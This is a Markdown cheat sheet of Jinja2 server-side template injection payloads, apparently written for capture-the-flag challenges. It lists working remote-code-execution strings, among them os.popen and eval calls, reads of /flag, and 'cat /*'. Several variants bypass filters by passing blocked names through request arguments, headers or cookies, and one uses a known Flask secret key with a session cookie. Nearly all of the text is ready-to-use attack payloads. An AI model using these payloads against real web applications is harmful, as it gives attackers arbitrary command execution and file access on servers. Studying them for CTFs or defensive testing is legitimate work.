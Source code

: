 # Jinja2

## The simplest payloads to achieve RCE

```py
{{cycler.__init__.__globals__["os"].popen("ls").read()}}
{{self.__init__.__globals__.__builtins__["eval"]("set(open(''/flag'))")}}
{{().__class__.__class__.__subclasses__(().__class__.__class__)[0].register.__builtins__["eval"]("set(open('/flag'))")}}
```

## No dots, no attr, no |, no 'flag', no subclasses, no globals, no `__class__`, no mro

```py
# http://localhost:1337/?c=__class__&s=__subclasses__&b=__globals__&bb=__builtins__&cmd=set(open(%22/flag.txt%22))

{{(()[request["args"]["c"]][request["args"]["c"]][request["args"]["s"]](()[request["args"]["c"]][request["args"]["c"]])[0]["register"])[request["args"]["b"]][request["args"]["bb"]]["eval"](request["args"]["cmd"])}}
```

## No dots, no attr, no |, no 'flag', no subclasses, no globals, no args, no mro, no `__class__`, idk what to put anymore

```http
GET /?q={{(()[request["headers"]["c"]][request["headers"]["c"]][request["headers"]["c"]][request["headers"]["c"]][request["headers"]["c"]][request["headers"]["s"]](()[request["headers"]["c"]][request["headers"]["c"]][request["headers"]["c"]][request["headers"]["c"]])[0]["register"])[request["headers"]["b"]][request["headers"]["bb"]]["eval"](request["headers"]["cmd"])}} HTTP/1.1
Host: localhost:1337
c:__class__
s:__subclasses__
b:__globals__
bb:__builtins__
cmd:set(open("/flag"))
Connection: close
```
(You can also use cookies)

## No dots, no attr, no {{, no _, no [, with known app.secret_key

```py
{%with a=session|first%}{%print(request|attr("application")|attr(a%2b"globals"%2ba))|attr(a%2b"getitem"+%2ba)("json")|attr("codecs")|attr("sys")|attr("modules")|attr(a%2b"getitem"+%2ba)("os")|attr("popen")("cat /*")|attr("read")()%}{%endwith%}

# session=.eJwljrsOwjAMAP8lM4Pjxq7Dz1SOH6ISMLRiQvw7QYx3uuHeZdvKtZRL2fKI81auqfczJu4-vTmqMYzBmdEcmhpxrziYwZxkKgdiSl1VOksIax1RpRmuC0qQkiFFB264Bgu6WGp3cXRAHNBmMrp6JSdVU6lh7m3hSDD6fb3OOP436o_9WT5fNWU0Sw.ZhpIWQ.OLbcuOplfe801xPDpiwJ-WC-zR4
```

Other payloads: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2---filter-bypass

Forcing output on blind RCE: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2---forcing-output-on-blind-rce
